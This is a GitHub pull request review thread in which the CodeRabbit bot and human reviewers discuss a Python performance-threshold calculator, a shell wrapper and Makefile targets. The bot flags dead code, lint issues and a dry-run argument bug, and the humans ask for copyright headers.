  
  ```
  Verify each finding against current code. Fix only still-valid issues, skip the
  rest with a brief reason, keep changes minimal, and validate.
  
  In `@Makefile-test.mk` around lines 842 - 844, Align the
  update-performance-thresholds target’s documented invocation with its
  $(ARGS)-based implementation: update the usage/help text in
  performance-thresholds.sh to instruct users to run make
  update-performance-thresholds ARGS=collect (and the equivalent supported modes),
  rather than treating collect as a separate make goal.
  ```
  
  </details>
  
  <!-- fingerprinting:phantom:medusa:komodo -->
  
  <!-- cr-indicator-types:potential_issue -->
  
  <!-- cr-comment:v1:130a934dd99716bf5fd06092 -->
  
  <!-- This is an auto-generated comment by CodeRabbit -->

### Review by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) (commented) — 2026-07-29T10:45:05Z

**Actionable comments posted: 1**

<details>
<summary>♻️ Duplicate comments (1)</summary><blockquote>

<details>
<summary>hack/testing/calculate_performance_thresholds.py (1)</summary><blockquote>

`27-32`: _🎯 Functional Correctness_ | _🟠 Major_ | _🏗️ Heavy lift_

**`percentile_stddev` and `percentile_99` are still dead — thresholds are pure fixed-margin.**

The sigma-based calculation the linked issue asked for is declared but never used; every threshold is `mean * (1 ± margin)`.

<details>
<summary>🤖 Prompt for AI Agents</summary>

```
Verify each finding against current code. Fix only still-valid issues, skip the
rest with a brief reason, keep changes minimal, and validate.

In `@hack/testing/calculate_performance_thresholds.py` around lines 27 - 32,
Update the threshold calculation logic in calculate_performance_thresholds to
use percentile_stddev and percentile_99 when deriving thresholds, rather than
relying solely on fixed cmd_margin, utilization_margin, and
admission_time_margin multipliers. Ensure the resulting thresholds incorporate
the calculated statistical percentile while preserving the existing minimum-run
and rounding behavior.
```

</details>

<!-- cr-comment:v1:c84753bb1f9b7318d8013e3a -->

</blockquote></details>

</blockquote></details>

<details>
<summary>🧹 Nitpick comments (3)</summary><blockquote>

<details>
<summary>hack/testing/calculate_performance_thresholds.py (2)</summary><blockquote>

`242-250`: _📐 Maintainability & Code Quality_ | _🔵 Trivial_ | _⚡ Quick win_

**Dead code: `load_existing_rangespec` is never called and `existing` is never read.**

`generate_rangespec_yaml(thresholds)` is the only call site (Line 410), so both the helper and the parameter are unused. Either wire them in to preserve existing entries or drop them. The signature also trips Ruff RUF013 (implicit `Optional`).

<details>
<summary>♻️ Proposed cleanup</summary>

```diff
-def load_existing_rangespec(rangespec_path: Path) -> dict:
-    """Load existing rangespec.yaml to preserve comments and structure"""
-    if rangespec_path.exists():
-        with open(rangespec_path, 'r') as f:
-            return yaml.safe_load(f)
-    return {}
-
-
-def generate_rangespec_yaml(thresholds: dict, existing: dict = None) -> str:
+def generate_rangespec_yaml(thresholds: dict) -> str:
```
</details>

<details>
<summary>🤖 Prompt for AI Agents</summary>

```
Verify each finding against current code. Fix only still-valid issues, skip the
rest with a brief reason, keep changes minimal, and validate.

In `@hack/testing/calculate_performance_thresholds.py` around lines 242 - 250,
Remove the unused load_existing_rangespec helper and the unread existing
parameter from generate_rangespec_yaml, updating its sole call site to pass only
thresholds. Ensure the resulting signature avoids the implicit Optional issue
flagged by Ruff RUF013.
```

</details>

<!-- cr-comment:v1:a94d5b13483bbd41797d78b5 -->

_Source: Linters/SAST tools_

---

`414-435`: _📐 Maintainability & Code Quality_ | _🔵 Trivial_ | _💤 Low value_

**Minor cleanups: extraneous `f` prefixes and a function-local import.**

Ruff flags F541 on Lines 416, 432, 435. Move `import shutil` (Line 423) to the module imports.

<details>
<summary>♻️ Proposed cleanup</summary>

```diff
-        print(f"   To apply changes, run without --dry-run")
+        print("   To apply changes, run without --dry-run")
@@
-            import shutil
             shutil.copy2(args.output, backup_path)
@@
-        print(f"\n📝 Next steps:")
+        print("\n📝 Next steps:")
         print(f"   1. Review the changes: git diff {args.output}")
         print(f"   2. Commit the changes: git add {args.output}")
-        print(f"   3. Push and create a PR")
+        print("   3. Push and create a PR")
```
</details>

<details>
<summary>🤖 Prompt for AI Agents</summary>

```
Verify each finding against current code. Fix only still-valid issues, skip the
rest with a brief reason, keep changes minimal, and validate.

In `@hack/testing/calculate_performance_thresholds.py` around lines 414 - 435,
Remove unnecessary f-string prefixes from the static print messages in the
dry-run and write-success output, while preserving interpolation where values
are included. Move the function-local shutil import used by the backup logic
into the module-level imports, leaving the existing backup behavior unchanged.
```

</details>

<!-- cr-comment:v1:99b43878ca980b8d309a6a2b -->

_Source: Linters/SAST tools_

</blockquote></details>
<details>
<summary>hack/testing/performance-thresholds.sh (1)</summary><blockquote>

`9-18`: _📐 Maintainability & Code Quality_ | _🔵 Trivial_ | _💤 Low value_

**Drop the unused `SCRIPT_DIR` and `YELLOW` (SC2034).**

<details>
<summary>♻️ Proposed cleanup</summary>

```diff
-SCRIPT_DIR="$(cd "$(dirname "${BASH_SOURCE[0]}")" && pwd)"
 PROJECT_ROOT="$(git rev-parse --show-toplevel 2>/dev/null || echo ".")"
@@
-YELLOW='\033[1;33m'
 BLUE='\033[0;34m'
```
</details>

<details>
<summary>🤖 Prompt for AI Agents</summary>

```
Verify each finding against current code. Fix only still-valid issues, skip the
rest with a brief reason, keep changes minimal, and validate.

In `@hack/testing/performance-thresholds.sh` around lines 9 - 18, Remove the
unused SCRIPT_DIR variable and YELLOW color constant from
performance-thresholds.sh, leaving PROJECT_ROOT, CALC_SCRIPT, and the other
actively used color definitions unchanged.
```

</details>

<!-- cr-comment:v1:c60a3fd369bff4bc19476787 -->

_Source: Linters/SAST tools_

</blockquote></details>

</blockquote></details>

<details>
<summary>🤖 Prompt for all review comments with AI agents</summary>

```
Verify each finding against current code. Fix only still-valid issues, skip the
rest with a brief reason, keep changes minimal, and validate.

Inline comments:
In `@hack/testing/performance-thresholds.sh`:
- Line 26: The DRY_RUN argument parsing does not accept the documented dry
token. Update the dry-run check in the calculation flow to recognize both the
literal true value and the dry token, while preserving the existing behavior for
other arguments and preventing rangespec.yaml from being written during dry
runs.

---

Duplicate comments:
In `@hack/testing/calculate_performance_thresholds.py`:
- Around line 27-32: Update the threshold calculation logic in
calculate_performance_thresholds to use percentile_stddev and percentile_99 when
deriving thresholds, rather than relying solely on fixed cmd_margin,
utilization_margin, and admission_time_margin multipliers. Ensure the resulting
thresholds incorporate the calculated statistical percentile while preserving
the existing minimum-run and rounding behavior.

---

Nitpick comments:
In `@hack/testing/calculate_performance_thresholds.py`:
- Around line 242-250: Remove the unused load_existing_rangespec helper and the
unread existing parameter from generate_rangespec_yaml, updating its sole call
site to pass only thresholds. Ensure the resulting signature avoids the implicit
Optional issue flagged by Ruff RUF013.
- Around line 414-435: Remove unnecessary f-string prefixes from the static
print messages in the dry-run and write-success output, while preserving
interpolation where values are included. Move the function-local shutil import
used by the backup logic into the module-level imports, leaving the existing
backup behavior unchanged.

In `@hack/testing/performance-thresholds.sh`:
- Around line 9-18: Remove the unused SCRIPT_DIR variable and YELLOW color
constant from performance-thresholds.sh, leaving PROJECT_ROOT, CALC_SCRIPT, and
the other actively used color definitions unchanged.
```

</details>

<details>
<summary>🪄 Autofix (Beta)</summary>

Fix all unresolved CodeRabbit comments on this PR:

- [ ] <!-- {"checkboxId": "4b0d0e0a-96d7-4f10-b296-3a18ea78f0b9"} --> Push a commit to this branch (recommended)
- [ ] <!-- {"checkboxId": "ff5b1114-7d8c-49e6-8ac1-43f82af23a33"} --> Create a new PR with the fixes

</details>

---

<details>
<summary>ℹ️ Review info</summary>

<details>
<summary>⚙️ Run configuration</summary>

**Configuration used**: Path: .coderabbit.yaml

**Review profile**: CHILL

**Plan**: Pro Plus

**Run ID**: `452fc4ff-fd97-416a-a13d-ce2a31e30a53`

</details>

<details>
<summary>📥 Commits</summary>

Reviewing files that changed from the base of the PR and between 20ac82041d403099c1aee01587140003439e0ac8 and 9f0f96045b9dfa527558ab53780717e35b605200.

</details>

<details>
<summary>📒 Files selected for processing (2)</summary>

* `hack/testing/calculate_performance_thresholds.py`
* `hack/testing/performance-thresholds.sh`

</details>

</details>

<!-- This is an auto-generated comment by CodeRabbit for review status -->

- **hack/testing/performance-thresholds.sh:41** by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-07-29T10:45:04Z
```diff
@@ -0,0 +1,133 @@
+#!/bin/bash
+# Performance Threshold Automation Script
+# Automates calculation and update of performance test thresholds
+
+set -o errexit
+set -o nounset
+set -o pipefail
+
+SCRIPT_DIR="$(cd "$(dirname "${BASH_SOURCE[0]}")" && pwd)"
+PROJECT_ROOT="$(git rev-parse --show-toplevel 2>/dev/null || echo ".")"
+CALC_SCRIPT="${PROJECT_ROOT}/hack/testing/calculate_performance_thresholds.py"
+
+# Colors
+RED='\033[0;31m'
+GREEN='\033[0;32m'
+YELLOW='\033[1;33m'
+BLUE='\033[0;34m'
+NC='\033[0m'
+
+print_info() { echo -e "${BLUE}ℹ${NC} $*"; }
+print_success() { echo -e "${GREEN}✓${NC} $*"; }
+print_error() { echo -e "${RED}✗${NC} $*" >&2; }
+
+# Parse arguments
+COMMAND="${1:-help}"
+DRY_RUN="${2:-false}"
```

  _🎯 Functional Correctness_ | _🔴 Critical_ | _⚡ Quick win_
  
  **Documented `dry` argument never triggers dry-run — thresholds get written anyway.**
  
  The help text (Lines 111, 120) tells users to pass `dry`, but Line 69 only matches the literal `true`, so `calculate dry` falls through to the writing branch and overwrites `rangespec.yaml`. Accept both tokens.
  
  <details>
  <summary>🐛 Proposed fix</summary>
  
  ```diff
  -    if [ "$DRY_RUN" = "true" ]; then
  +    if [ "$DRY_RUN" = "true" ] || [ "$DRY_RUN" = "dry" ] || [ "$DRY_RUN" = "dry-run" ]; then
  ```
  </details>
  
  
  
  
  
  Also applies to: 69-69
  
  <details>
  <summary>🤖 Prompt for AI Agents</summary>
  
  ```
  Verify each finding against current code. Fix only still-valid issues, skip the
  rest with a brief reason, keep changes minimal, and validate.
  
  In `@hack/testing/performance-thresholds.sh` at line 26, The DRY_RUN argument
  parsing does not accept the documented dry token. Update the dry-run check in
  the calculation flow to recognize both the literal true value and the dry token,
  while preserving the existing behavior for other arguments and preventing
  rangespec.yaml from being written during dry runs.
  ```
  
  </details>
  
  <!-- fingerprinting:phantom:medusa:komodo -->
  
  <!-- cr-indicator-types:potential_issue -->
  
  <!-- cr-comment:v1:accf15b84140ec5444d44c42 -->
  
  <!-- This is an auto-generated comment by CodeRabbit -->

### Review by [@mbobrovskyi](https://github.com/mbobrovskyi) (commented) — 2026-07-29T11:32:24Z

- **hack/testing/calculate_performance_thresholds.py:1** by [@mbobrovskyi](https://github.com/mbobrovskyi) — 2026-07-29T11:32:25Z
```diff
@@ -0,0 +1,439 @@
+#!/usr/bin/env python3
```

  Please add copyright preamble.

### Review by [@mbobrovskyi](https://github.com/mbobrovskyi) (commented) — 2026-07-29T11:32:44Z

- **hack/testing/performance-thresholds.sh:17** by [@mbobrovskyi](https://github.com/mbobrovskyi) — 2026-07-29T11:32:44Z
```diff
@@ -0,0 +1,133 @@
+#!/bin/bash
+# Performance Threshold Automation Script
```

  Also here.

### Review by [@mbobrovskyi](https://github.com/mbobrovskyi) (commented) — 2026-07-29T11:33:18Z

- **Makefile-test.mk:842** by [@mbobrovskyi](https://github.com/mbobrovskyi) — 2026-07-29T11:33:18Z
```diff
@@ -838,3 +838,7 @@ test-e2e-kueueviz: setup-e2e-env ## Run end-to-end tests for kueueviz without ru
 .PHONY: verify-ci-build-times
 verify-ci-build-times: ## Verify that CI build times are below threshold.
 	python3 ./hack/tools/prow-runtimes/prow_runtimes.py --kueue-presubmits --limit 5 --only-success --only-merge-pool --threshold-stat=second_longest --threshold 14m
+
+.PHONY: update-performance-thresholds
```

  Any updates after run?

### Review by [@ekam-walia](https://github.com/ekam-walia) (commented) — 2026-07-30T04:38:23Z

- **hack/testing/calculate_performance_thresholds.py:1** by [@ekam-walia](https://github.com/ekam-walia) — 2026-07-30T04:38:23Z
```diff
@@ -0,0 +1,439 @@
+#!/usr/bin/env python3
```

  Sure adding the copyright preamble

### Review by [@ekam-walia](https://github.com/ekam-walia) (commented) — 2026-07-31T07:16:46Z

- **Makefile-test.mk:842** by [@ekam-walia](https://github.com/ekam-walia) — 2026-07-31T07:16:46Z
```diff
@@ -838,3 +838,7 @@ test-e2e-kueueviz: setup-e2e-env ## Run end-to-end tests for kueueviz without ru
 .PHONY: verify-ci-build-times
 verify-ci-build-times: ## Verify that CI build times are below threshold.
 	python3 ./hack/tools/prow-runtimes/prow_runtimes.py --kueue-presubmits --limit 5 --only-success --only-merge-pool --threshold-stat=second_longest --threshold 14m
+
+.PHONY: update-performance-thresholds
```

  Yup, added them in the PR description

### Review by [@ekam-walia](https://github.com/ekam-walia) (commented) — 2026-08-09T06:34:49Z

- **Makefile:606** by [@ekam-walia](https://github.com/ekam-walia) — 2026-08-09T06:34:49Z
```diff
@@ -602,3 +602,127 @@ secretreader-plugin-image-build:
 kind-secretreader-plugin-image-build: PLATFORMS=$(HOST_IMAGE_PLATFORM)
 kind-secretreader-plugin-image-build: PUSH=--load
 kind-secretreader-plugin-image-build: secretreader-plugin-image-build
+
+# Performance Threshold Automation Makefile Targets
```

  Done with this

### Review by [@ekam-walia](https://github.com/ekam-walia) (commented) — 2026-08-09T06:35:01Z

- **hack/testing/calculate_performance_thresholds.py:133** by [@ekam-walia](https://github.com/ekam-walia) — 2026-08-09T06:35:01Z
```diff
@@ -0,0 +1,439 @@
+#!/usr/bin/env python3
+"""
+Performance Threshold Calculator for Kueue
+
+Analyzes historical performance test runs and automatically calculates
+appropriate thresholds using statistical analysis (mean + N standard deviations).
+
+Usage:
+    python3 calculate_performance_thresholds.py --artifacts-dir /path/to/artifacts --output rangespec.yaml
+    python3 calculate_performance_thresholds.py --help
+"""
+
+import argparse
+import json
+import math
+import os
+import sys
+import yaml
+from pathlib import Path
+from dataclasses import dataclass, asdict
+from typing import Dict, List, Tuple, Optional
+from statistics import mean, stdev, StatisticsError
+
+@dataclass
+class ThresholdConfig:
+    """Configuration for threshold calculation"""
+    percentile_stddev: float = 6.46  # For 1 in a million (6.46 sigma)
+    cmd_margin: float = 0.20  # 20% margin for command execution time
+    utilization_margin: float = -0.07  # -7% margin for minimum utilization
+    admission_time_margin: float = 0.20  # 20% margin for admission times
+    min_runs_required: int = 5  # Minimum historical runs needed
+    rounding_interval: int = 1000  # Round to nearest 1000ms
+
+@dataclass
+class MetricStats:
+    """Statistics for a metric across multiple runs"""
+    metric_name: str
+    values: List[float]
+    mean: float = 0.0
+    stddev: float = 0.0
+    min_val: float = 0.0
+    max_val: float = 0.0
+    percentile_99: float = 0.0
+    
+    def calculate(self):
+        """Calculate statistics from values"""
+        if not self.values:
+            return
+        
+        self.mean = mean(self.values)
+        self.min_val = min(self.values)
+        self.max_val = max(self.values)
+        
+        if len(self.values) > 1:
+            try:
+                self.stddev = stdev(self.values)
+                # Calculate 99th percentile (mean + 2.326 sigma)
+                self.percentile_99 = self.mean + (2.326 * self.stddev)
+            except StatisticsError:
+                self.stddev = 0.0
+                self.percentile_99 = self.mean
+
+
+class PerformanceThresholdCalculator:
+    """Analyzes performance test results and calculates thresholds"""
+    
+    def __init__(self, config: ThresholdConfig):
+        self.config = config
+        self.cmd_metrics: MetricStats = MetricStats("cmd.maxWallMs", [])
+        self.cluster_queue_metrics: Dict[str, MetricStats] = {}
+        self.workload_class_metrics: Dict[str, MetricStats] = {}
+    
+    def load_test_results(self, artifacts_dir: Path) -> int:
+        """
+        Load test results from artifacts directory.
+        
+        Looks for summary.yaml files in run directories:
+        - artifacts/run-performance-scheduler/summary.yaml
+        - artifacts/run-tas-performance-scheduler/summary.yaml
+        
+        Returns number of runs found
+        """
+        run_count = 0
+        artifacts_dir = Path(artifacts_dir)
+        
+        # Patterns to search for
+        patterns = [
+            "run-performance-scheduler/summary.yaml",
+            "run-performance-scheduler-*/summary.yaml",
+            "run-tas-performance-scheduler/summary.yaml",
+            "run-tas-performance-scheduler-*/summary.yaml",
+        ]
+        
+        summary_files = []
+        for pattern in patterns:
+            summary_files.extend(artifacts_dir.glob(pattern))
+        
+        if not summary_files:
+            print(f"Warning: No summary.yaml files found in {artifacts_dir}")
+            print(f"Searched patterns: {patterns}")
+            return 0
+        
+        print(f"Found {len(summary_files)} test result file(s)")
+        
+        for summary_file in sorted(summary_files):
+            try:
+                with open(summary_file, 'r') as f:
+                    data = yaml.safe_load(f)
+                    if data:
+                        self._extract_metrics(data)
+                        run_count += 1
+                        print(f"  ✓ Loaded {summary_file}")
+            except Exception as e:
+                print(f"  ✗ Error loading {summary_file}: {e}")
+        
+        return run_count
+    
+    def _extract_metrics(self, data: dict):
+        """Extract metrics from a single test result"""
+        try:
+            # Extract command wall time
+            if 'flat' in data and 'wallMs' in data['flat']:
+                self.cmd_metrics.values.append(float(data['flat']['wallMs']))
+            
+            # Extract cluster queue metrics (minimum usage percentages)
+            if 'clusterQueueClasses' in data:
+                for cq_name, cq_data in data['clusterQueueClasses'].items():
+                    if 'cpuAverageUsage' in cq_data and 'nominalQuota' in cq_data:
+                        if cq_data['nominalQuota'] > 0:
+                            usage = (cq_data['cpuAverageUsage'] * 100) / cq_data['nominalQuota']
+                            if cq_name not in self.cluster_queue_metrics:
+                                self.cluster_queue_metrics[cq_name] = MetricStats(f"cq.{cq_name}", [])
+                            self.cluster_queue_metrics[cq_name].values.append(usage)
```

  Okay Coderabbit

### Review by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) (commented) — 2026-08-09T06:35:16Z

- **hack/testing/calculate_performance_thresholds.py:133** by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-08-09T06:35:16Z
```diff
@@ -0,0 +1,439 @@
+#!/usr/bin/env python3
+"""
+Performance Threshold Calculator for Kueue
+
+Analyzes historical performance test runs and automatically calculates
+appropriate thresholds using statistical analysis (mean + N standard deviations).
+
+Usage:
+    python3 calculate_performance_thresholds.py --artifacts-dir /path/to/artifacts --output rangespec.yaml
+    python3 calculate_performance_thresholds.py --help
+"""
+
+import argparse
+import json
+import math
+import os
+import sys
+import yaml
+from pathlib import Path
+from dataclasses import dataclass, asdict
+from typing import Dict, List, Tuple, Optional
+from statistics import mean, stdev, StatisticsError
+
+@dataclass
+class ThresholdConfig:
+    """Configuration for threshold calculation"""
+    percentile_stddev: float = 6.46  # For 1 in a million (6.46 sigma)
+    cmd_margin: float = 0.20  # 20% margin for command execution time
+    utilization_margin: float = -0.07  # -7% margin for minimum utilization
+    admission_time_margin: float = 0.20  # 20% margin for admission times
+    min_runs_required: int = 5  # Minimum historical runs needed
+    rounding_interval: int = 1000  # Round to nearest 1000ms
+
+@dataclass
+class MetricStats:
+    """Statistics for a metric across multiple runs"""
+    metric_name: str
+    values: List[float]
+    mean: float = 0.0
+    stddev: float = 0.0
+    min_val: float = 0.0
+    max_val: float = 0.0
+    percentile_99: float = 0.0
+    
+    def calculate(self):
+        """Calculate statistics from values"""
+        if not self.values:
+            return
+        
+        self.mean = mean(self.values)
+        self.min_val = min(self.values)
+        self.max_val = max(self.values)
+        
+        if len(self.values) > 1:
+            try:
+                self.stddev = stdev(self.values)
+                # Calculate 99th percentile (mean + 2.326 sigma)
+                self.percentile_99 = self.mean + (2.326 * self.stddev)
+            except StatisticsError:
+                self.stddev = 0.0
+                self.percentile_99 = self.mean
+
+
+class PerformanceThresholdCalculator:
+    """Analyzes performance test results and calculates thresholds"""
+    
+    def __init__(self, config: ThresholdConfig):
+        self.config = config
+        self.cmd_metrics: MetricStats = MetricStats("cmd.maxWallMs", [])
+        self.cluster_queue_metrics: Dict[str, MetricStats] = {}
+        self.workload_class_metrics: Dict[str, MetricStats] = {}
+    
+    def load_test_results(self, artifacts_dir: Path) -> int:
+        """
+        Load test results from artifacts directory.
+        
+        Looks for summary.yaml files in run directories:
+        - artifacts/run-performance-scheduler/summary.yaml
+        - artifacts/run-tas-performance-scheduler/summary.yaml
+        
+        Returns number of runs found
+        """
+        run_count = 0
+        artifacts_dir = Path(artifacts_dir)
+        
+        # Patterns to search for
+        patterns = [
+            "run-performance-scheduler/summary.yaml",
+            "run-performance-scheduler-*/summary.yaml",
+            "run-tas-performance-scheduler/summary.yaml",
+            "run-tas-performance-scheduler-*/summary.yaml",
+        ]
+        
+        summary_files = []
+        for pattern in patterns:
+            summary_files.extend(artifacts_dir.glob(pattern))
+        
+        if not summary_files:
+            print(f"Warning: No summary.yaml files found in {artifacts_dir}")
+            print(f"Searched patterns: {patterns}")
+            return 0
+        
+        print(f"Found {len(summary_files)} test result file(s)")
+        
+        for summary_file in sorted(summary_files):
+            try:
+                with open(summary_file, 'r') as f:
+                    data = yaml.safe_load(f)
+                    if data:
+                        self._extract_metrics(data)
+                        run_count += 1
+                        print(f"  ✓ Loaded {summary_file}")
+            except Exception as e:
+                print(f"  ✗ Error loading {summary_file}: {e}")
+        
+        return run_count
+    
+    def _extract_metrics(self, data: dict):
+        """Extract metrics from a single test result"""
+        try:
+            # Extract command wall time
+            if 'flat' in data and 'wallMs' in data['flat']:
+                self.cmd_metrics.values.append(float(data['flat']['wallMs']))
+            
+            # Extract cluster queue metrics (minimum usage percentages)
+            if 'clusterQueueClasses' in data:
+                for cq_name, cq_data in data['clusterQueueClasses'].items():
+                    if 'cpuAverageUsage' in cq_data and 'nominalQuota' in cq_data:
+                        if cq_data['nominalQuota'] > 0:
+                            usage = (cq_data['cpuAverageUsage'] * 100) / cq_data['nominalQuota']
+                            if cq_name not in self.cluster_queue_metrics:
+                                self.cluster_queue_metrics[cq_name] = MetricStats(f"cq.{cq_name}", [])
+                            self.cluster_queue_metrics[cq_name].values.append(usage)
```

  `@ekam-walia`, thank you. The Comment images also show that the calculation output has no command wall-time threshold. Please update the extractor to use the separate command statistics source and the checker-compatible cluster queue usage formula. Then rerun the calculation and validate the generated `rangespec.yaml`.
  
  🐇✅
  
  <sub>You are interacting with an AI system.</sub>
  
  <!-- This is an auto-generated reply by CodeRabbit -->
